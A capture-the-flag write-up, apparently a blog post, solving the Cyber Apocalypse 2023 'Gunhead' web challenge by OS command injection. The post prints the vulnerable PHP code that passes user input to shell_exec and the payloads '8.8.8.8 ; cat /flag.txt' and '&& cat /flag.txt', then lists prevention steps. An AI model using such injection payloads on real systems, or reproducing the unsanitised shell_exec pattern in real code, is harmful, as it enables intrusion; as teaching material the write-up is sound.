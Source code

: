 ```yaml
---
layout: default
title: Gunhead
---
```


# [Cyber Apocalypse 2023](index.md) - Web - Gunhead

> During Pandora's training, the Gunhead AI combat robot had been tampered with and was now malfunctioning, causing it to become uncontrollable. With the situation escalating rapidly, Pandora used her hacking skills to infiltrate the managing system of Gunhead and urgently needs to take it down.

As usual for web challenges, we are provided with a zip file with source code, and a spawnable docker container.

![Gunhead](web-gunhead/01.png)

Looks like we're controlling a robot - cool.

![Gunhead](web-gunhead/02.png)

We can toggle a "needs" box along the left, and a sliding-down-from-the-top-like-quake command terminal.

![Gunhead](web-gunhead/03.png)

We've got some commands we can run - the main ones being `/ping` and `/storage`.

`/storage` gives us some general storage related info.

```
> /storage
Filesystem: /dev/sda1
Total Space: 20TB
Used Space: 14TB
Available Space: 6TB
Use Percentage: 70%
Mounted On: /
```

`/ping` seems to... actually ping things, so that's interesting.

```
PING 8.8.8.8 (8.8.8.8): 56 data bytes
> /ping 8.8.8.8
[+] Starting scan on 8.8.8.8
```

Lets take a look at the provided source code.

In this container's `Dockerfile`, we can see the flag getting copied into the container using the following two entries:

```dockerfile
# Copy flag
COPY flag.txt /flag.txt
RUN chmod 755 /flag.txt
```

`chmod 755` would mean that any user on the system can read it, including the `www` user that the web server (nginx in this case) is running as. If this was _actually_ a sensitive file, `755` is not a good choice here.

The rest of the code seems to be a fairly simple web application written in PHP (simple for a professional software developer I guess).

```php
$router = new Router();
$router->new('GET', '/', 'ReconController@index');
$router->new('POST', '/api/ping', 'ReconController@ping');
```
There is a an API route for the ping command, though not the storage command (which is probably imaginary for the sake of the challenge - fair enough).

Following the code to the `ReconController` file...

```php
class ReconController
{
    public function index($router)
    {
        return $router->view('index');
    }

    public function ping($router)
    {
        $jsonBody = json_decode(file_get_contents('php://input'), true);

        if (empty($jsonBody) || !array_key_exists('ip', $jsonBody))
        {
            return $router->jsonify(['message' => 'Insufficient parameters!']);
        }

        $pingResult = new ReconModel($jsonBody['ip']);

        return $router->jsonify(['output' => $pingResult->getOutput()]);
    }
}
```
We get some input from the user in json format specifying an ip address and pass it directly to a new `ReconModel`.
It's interesting that there is _absolutely no_ input sanitation or checking or anything here - it's just passing the input directly from the user to `ReconModel`... maybe there will be some security in there? (I won't hold my breath, this is a _very easy_ challenge).

```php
class ReconModel
{
    public function __construct($ip)
    {
        $this->ip = $ip;
    }

    public function getOutput()
    {
        # Do I need to sanitize user input before passing it to shell_exec?
        return shell_exec('ping -c 3 '.$this->ip);
    }
}
```
No sanity checks, and it takes whatever we type in and inserts it directly onto the end of a `ping` command, which it passes to `shell_exec` to run a ping on the underlying system.

In PHP, [shell_exec](https://www.php.net/manual/en/function.shell-exec.php):
> Execute command via shell and return the complete output as a string

We can probably just chain a command on the end of whatever we want to ping, and have it execute that as well. In Linux systems you can chain commands together in a number of ways:
 * `&&` can be used to run command sequentially from left to right. For example, `apt update && apt upgrade && apt autoremove` would run `apt update`, wait for it to finish, then run `apt upgrade`, wait for it to finish and then run `apt autoremove`. If a previous command fails, it will not process any further commands in the chain.
 * `|` can be used in the same way as `&&`, but it will pass the output from the previous command to the input of the next one. It will stop processing the chain if it encounters an error.
 * `;` can be used in the same way as `&&`, but it will not care about if a previous command is successful or not, and will _not_ pass output to the input of the next command.

Since we can use any command on the system, `cat` is a good choice - it will simply return the contents of a file in plain text, which is what we want to reveal the flag.

So, on the website, if we run the following command, we should get a flag:

```
/ping 8.8.8.8 && cat /flag.txt
```
```
PING 8.8.8.8 (8.8.8.8): 56 data bytes
> /ping 8.8.8.8 && cat /flag.txt
```
This doesn't seem to work - likely either the `ping` command itself is failing, or the `shell_exec` PHP function is confused when running `ping` because ping takes a while to actually finish - we never see the results of _any_ of the pings that it does, just that it's started doing them.

So, lets try `;`

```
/ping 8.8.8.8 ; cat /flag.txt
```

```
PING 8.8.8.8 (8.8.8.8): 56 data bytes
HTB{4lw4y5_54n1t1z3_u53r_1nput!!!}
> /ping 8.8.8.8 ; cat /flag.txt
```

Looks like this worked, and we can see it's returned the flag.

```
HTB{4lw4y5_54n1t1z3_u53r_1nput!!!}
```

## How could they have prevented this?
 * Do a sanity check on all user inputs
 * Never let user input of any kind go directly to the command line
 * Probably your web app doesn't need to ping things, that seems bad for a lot of reasons. Maybe if a hypothetical robot needed to do some kind of uptime check, hardcoding the address to ping might be better, rather than letting the user input something.
 * In this case, the web server was running as the `www` user, which shouldn't have access to sensitive files. Make sure the service account for your web server doesn't have access to sensitive files.